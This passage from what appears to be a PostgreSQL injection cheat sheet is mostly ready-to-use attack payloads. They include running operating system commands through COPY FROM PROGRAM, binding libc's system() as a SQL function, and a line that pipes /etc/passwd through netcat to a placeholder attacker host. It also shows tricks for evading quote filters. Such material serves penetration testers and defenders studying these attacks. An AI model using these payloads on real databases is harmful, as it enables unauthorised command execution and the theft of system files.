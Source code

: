\`\`\`SQL
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
\`\`\`

![https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png)

### Using libc.so.6

\`\`\`sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
\`\`\`

### Bypass Filter

#### Quotes

Using CHR

\`\`\`sql
SELECT CHR(65)||CHR(66)||CHR(67);
\`\`\`

Using Dollar-signs  ( >= version 8 PostgreSQL)

\`\`\`sql
SELECT $$This is a string$$
SELECT $TAG$This is another string$TAG$
\`\`\`



## References

* [A Penetration Tester’s Guide to PostgreSQL - David Hayter](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - Mar 20 2019 - GreenWolf](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
* [SQL Injection /webApp/oma_conf ctx parameter (viestinta.lahitapiola.fi) - December 8, 2016 - Sergey Bobrov (bobrov)](https://hackerone.com/reports/181803)
* [POSTGRESQL 9.X REMOTE COMMAND EXECUTION - 26 Oct 17 - Daniel](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
* [SQL Injection and Postgres - An Adventure to Eventual RCE - May 05, 2020 - Denis Andzakovic](https://pulsesecurity.co.nz/articles/postgres-sqli)
* [Advanced PostgreSQL SQL Injection and Filter Bypass Techniques - 2009 - INFIGO](https://www.infigo.hr/files/INFIGO-TD-2009-04_PostgreSQL_injection_ENG.pdf)
